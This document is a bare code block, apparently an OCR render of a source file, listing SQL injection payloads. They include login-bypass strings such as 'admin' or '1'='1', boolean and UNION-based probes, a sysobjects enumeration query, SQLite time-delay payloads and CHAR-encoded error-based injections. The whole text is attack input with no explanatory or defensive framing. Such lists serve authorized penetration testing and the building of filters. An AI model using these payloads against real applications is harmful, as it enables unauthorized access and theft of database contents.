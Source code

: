 ```
admin' or '1'='1'#
admin' or '1'='1'--
admin' or '1'='1'/*
admin' or 1=1
admin' or 1=1#
admin' or 1=1--
admin' or 1=1/*
admin') or '1'='1
admin') or '1'='1'#
admin') or '1'='1'--
admin') or '1'='1'/*
admin') or ('1'='1
admin') or ('1'='1'#
admin') or ('1'='1'--
admin') or ('1'='1'/*
admin"or 1=1 or ""="
admin'or 1=1 or ''='
AND 0
AND 1
AND 1=0
AND 1=0#
AND 1=0-- 
AND 1083=1083 AND ('1427=1427
AND 1083=1083 AND (1427=1427
AND 1=0 AND '%'='
" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
and 1=1
and 1=1–
' and 1='1
AND 1=1
AND 1=1#
AND 1=1-- 
AND 1=1 AND '%'='
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
AND 3516=CAST((CHR(113)||CHR(106)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (3516=3516) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(106)||CHR(107)||CHR(113)) AS NUMERIC)
AND 5650=CONVERT(INT,(SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (5650=5650) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))#
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))-- 
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))
AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))#
```